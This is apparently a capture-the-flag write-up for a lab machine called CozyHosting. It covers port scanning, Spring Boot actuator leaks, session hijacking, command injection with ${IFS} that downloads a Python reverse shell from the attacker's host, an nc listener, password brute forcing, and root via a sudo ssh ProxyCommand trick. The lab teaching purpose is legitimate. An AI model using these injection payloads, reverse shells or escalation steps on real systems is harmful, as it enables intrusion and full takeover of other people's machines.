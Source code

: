 ## Port Scan

To scan faster all the ports, we use the SYN scan only. Then we move to a more accurate scan on relevant ports.

```shell
└─$ sudo nmap -sS -p1-65000 10.129.12.20
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-06 19:43 CET
Nmap scan report for 10.129.12.20
Host is up (0.048s latency).
Not shown: 64998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 40.64 seconds

```

Only a web server and the usual ssh.

## Directory Enumeration

```shell
─$ gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]
/%C0                  (Status: 400) [Size: 435]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 435]
/http%3A%2F%2Fblog    (Status: 400) [Size: 435]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 435]
/27079%5Fclassicpeople2%2Ejpg (Status: 200) [Size: 0]
/children%2527s_tent  (Status: 200) [Size: 0]
/tiki%2Epng           (Status: 200) [Size: 0]
/Wanted%2e%2e%2e      (Status: 200) [Size: 0]
/How_to%2e%2e%2e      (Status: 200) [Size: 0]
/External%5CX-News    (Status: 400) [Size: 435]
/squishdot_rss10%2Etxt (Status: 200) [Size: 0]
/b33p%2Ehtml          (Status: 200) [Size: 0]
/help%2523drupal      (Status: 200) [Size: 0]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 435]
/http%3A%2F%2Fradar   (Status: 400) [Size: 435]
/%CF                  (Status: 400) [Size: 435]
/%D8                  (Status: 400) [Size: 435]
/%CE                  (Status: 400) [Size: 435]
/%CD                  (Status: 400) [Size: 435]
/%CB                  (Status: 400) [Size: 435]
/%CC                  (Status: 400) [Size: 435]
/%CA                  (Status: 400) [Size: 435]
/%D1                  (Status: 400) [Size: 435]
/%D0                  (Status: 400) [Size: 435]
/%D6                  (Status: 400) [Size: 435]
/%D7                  (Status: 400) [Size: 435]
/%D5                  (Status: 400) [Size: 435]
/%D3                  (Status: 400) [Size: 435]
/%D4                  (Status: 400) [Size: 435]
/%D2                  (Status: 400) [Size: 435]
/%C9                  (Status: 400) [Size: 435]
/%C1                  (Status: 400) [Size: 435]
/%C8                  (Status: 400) [Size: 435]
/%C2                  (Status: 400) [Size: 435]
/%C7                  (Status: 400) [Size: 435]
/%C5                  (Status: 400) [Size: 435]
/%C6                  (Status: 400) [Size: 435]
/%C4                  (Status: 400) [Size: 435]
/%C3                  (Status: 400) [Size: 435]
/%D9                  (Status: 400) [Size: 435]
/%DF                  (Status: 400) [Size: 435]
/%DD                  (Status: 400) [Size: 435]
/%DE                  (Status: 400) [Size: 435]
/%DB                  (Status: 400) [Size: 435]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 435]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 435]
/http%3A%2F%2Fswik    (Status: 400) [Size: 435]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Spring Boot

The `/error` shows an interesting error message that reveals the backend of the admin page is probably made with Spring Boot. By testing some of the spring boot actuators available at https://raw.githubusercontent.com/artsploit/SecLists/master/Discovery/Web-Content/spring-boot.txt it is possible to find some additional information leak:

```shell
└─$ gobuster dir -u http://cozyhosting.htb -w spr.txt                                                     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                spr.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
Progress: 34 / 35 (97.14%)
===============================================================
Finished
===============================================================

```

Where spr.txt is the content of the file at the link above (a list of actuator URIs)
Let's analyze the leaked information now.

## Spring Sessions

Looking into `actuator/mappings` a `sessions` actuator is revealed. A session for the user kanderson is available and it shows the JSESSIONID that is usable as a cookie to reach the `/admin` site.

Doing a simple GET request using 

```
Cookie: JSESSIONID=4D5A3D4DC1A02DDC91B21393BB18B596
```

will give access to the admin portal. Notice that this session id changes continuously!

## SSH Shell

The admin panel allows for connections via SSH via a POST form. It allows to set the username and the host to connect to. This command will work then:

```shell
curl http://cozyhosting.htb/executessh -i  -X POST -d "host=10.10.14.47&username=kali"
```

And will print out the result of the command. Some tests have to be performed to discover something useful. Basically commands can be injected in the username.

## Prepare Python Reverse Shell

We prepare a reverse shell in Python, in the file `pysh.py`

```python
import os
import pty
import sys
import socket
s=socket.socket()
print('CAZZO', file=sys.stderr)
s.connect(("10.10.14.47", 24387))
[os.dup2(s.fileno(),f) for f in (0,1,2)]
pty.spawn("sh")
```

then we prepare a webserver to serve it to the machine:

```shell
python -m http.server
```

In the same folder of the file file `pysh.py`

## Command injection

Now we can inject the command to download the file

```shell
curl http://cozyhosting.htb/executessh -i  -X POST -d "host=localhost&username=kali;wget\${IFS}10.10.14.47:8000/pysh.py\${IFS}-O\${IFS}/tmp/pysh.py;"
```

We use `\${IFS}` because the username is sanitized.

Finally we run the listener on our side:

```shell
nc -lvnp 24387
```

And another command injection on the machine side

```shell
curl http://cozyhosting.htb/executessh -i  -X POST -d "host=localhost&username=kali;python3\${IFS}/tmp/pysh.py;"
HTTP/1.1 504 Gateway Time-out
```

And we have the reverse shell!

## Find a Valid User

The home directory contains a user: josh. This is the user that we can probably exploit to get the `user.txt` file. As we can't find many ways to do a lateral movement, we brute force the login of josh in the ssh, using Hydra

And that returns the password: `manchesterunited` so we are in, we can read the user flag into the user home.

## Privilege Escalation

The user Josh can execute `/usr/bin/ssh` as root. This is the vector to be used.
SSH has a feature called ProxyCommand that allows the execution of some code before the connection starts. One can create an SSH config file in `~/.ssh/config` like:

```shell
Host localhost
  ProxyCommand sh -c "python3 /home/josh/pysh.py"
```

So any connection to localhost will execute this code with the same user as the user of the ssh client process.

If ssh is used to connect to localhost with josh as user then this code will be executed. It is enough to place a `pysh.py` into josh's home to execute the reverse shell. The file is identical to the one above.

Now, two problems: doing that will only create a reverse shell from josh. Plus when executing as `sudo` the file `~/.ssh/config` will not be used because that is josh's file and the process runs as user. So even using `sudo` this will not work.

Anyway it is enough to use the flag `-F` to make it work.

```shell
sudo ssh -F /home/josh/.ssh/config josh@localhost
```

This will open a reverse shell to a listener and the shell will have root privileges. 

